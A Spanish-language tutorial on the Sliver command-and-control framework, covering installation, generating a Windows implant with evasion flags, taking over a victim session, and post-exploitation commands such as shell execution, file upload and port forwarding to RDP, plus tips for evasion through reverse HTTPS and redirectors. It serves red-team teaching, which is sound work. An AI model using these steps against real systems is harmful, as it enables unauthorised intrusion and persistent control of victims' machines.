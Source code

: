 

> Sliver es un framework de Command & Control (C2) moderno, desarrollado por BishopFox. Es una alternativa libre y de código abierto a herramientas como Cobalt Strike, y se utiliza en ejercicios de Red Team, pentesting avanzado y simulaciones de APT.

---

## 🔧 Requisitos

- Sistema operativo: Kali Linux, Debian 12 o cualquier Linux moderno
    
- Golang instalado (recomendado: v1.20+)
    
- Conexión a Internet
    

---

## 🚀 Instalación de Sliver

```bash
# 1. Clonar el repositorio
sudo git clone https://github.com/BishopFox/sliver.git /opt/sliver

# 2. Ir al directorio
cd /opt/sliver

# 3. Compilar el servidor
make build

# 4. Hacer accesible el binario
sudo ln -s /opt/sliver/sliver-server /usr/local/bin/sliver-server
sudo ln -s /opt/sliver/sliver-client /usr/local/bin/sliver-client
```

---

## 📂 Estructura del Framework

- `sliver-server`: Componente del lado del atacante (C2 Server)
    
- `sliver-client`: Cliente CLI para interactuar con el servidor
    
- Implants/agents: Ejecutables generados para infectar objetivos
    

---

## 🤖 Ejecución del Servidor

```bash
sliver-server
```

Esto iniciará el servidor Sliver. Si es la primera vez, se generarán claves TLS y configuraciones.

---

## 🚪 Uso del Cliente

En otra terminal:

```bash
sliver-client
```

Aparecerá un prompt interactivo como:

```bash
sliver >
```

---

## 🚩 Generar Payload (Implant)

Ejemplo para Windows:

```bash
generate --os windows --arch amd64 --format exe --sleep 5s --name andre
```

Esto genera un payload `andre.exe` en la carpeta `./sliver/builds`.

Puedes también usar formatos como `--format shellcode`, `--format service`, `--http`, etc.

---

## 🚫 Evasiones y OpSec

Sliver permite:

- Ofuscación
    
- Randomización de nombres de funciones
    
- Cifrado TLS
    
- Soporte para mTLS y DNS over HTTPS
    
- Payloads con `--reflective`, `--syscall` y `--sandbox-evasion`
    

---

## 🚀 Ejecución y Callback

Una vez que el payload se ejecuta en el host víctima:

```bash
[*] Session andre (192.168.1.X) active
```

Puedes tomar el control con:

```bash
sliver > sessions
sliver > interact <ID>
```

---

## 🤜 Comandos útiles dentro de la sesión

```bash
info
ps
upload /tmp/tool.exe
shell whoami
portfwd add -l 4444 -r 127.0.0.1 -p 3389
```

---

## 🎓 Automatización con Scripts

Puedes escribir scripts en Go y cargarlos con:

```bash
sliver > script load ./script.go
```

---

## 📝 Logs y Auditoría

Los logs se almacenan en:

```
~/.sliver/
```

Incluyen los registros del cliente, configuración, claves y sesiones.

---

## 🔄 Actualizar Sliver

```bash
cd /opt/sliver
git pull
make build
```

---

## 💡 Consejos

- Usa Sliver en laboratorios controlados
    
- Cambia el dominio TLS default
    
- Usa `reverse-https` o `reverse-dns` para mejor evasión
    
- Integra con C2-Bridge, redirectores o CDNs
    

---

✅ **Sliver es poderoso pero requiere responsabilidad.** Únicamente para uso ético, profesional y con autorización.

---

¿Seguimos con **Impacket** ahora?